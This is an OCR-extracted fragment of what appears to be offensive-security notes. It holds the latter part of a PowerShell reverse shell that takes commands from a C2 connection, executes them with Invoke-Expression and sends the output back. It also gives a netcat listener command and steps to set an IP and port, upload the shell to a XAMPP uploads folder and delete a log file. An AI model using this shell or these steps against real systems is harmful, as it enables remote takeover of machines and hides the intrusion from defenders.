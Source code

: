     # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close()





sudo nc -lvnp 4455



----FORMA 2-------------------------------------------------------------------

type vulnerable.ps1


1. Copy the vulnerable.ps1 file and change the IP and the port as required
2. Upload the modified reverse shell
- Remove-Item log.txt
3. Delete the log.txt file in the Directory: C:\xampp\htdocs\uploads


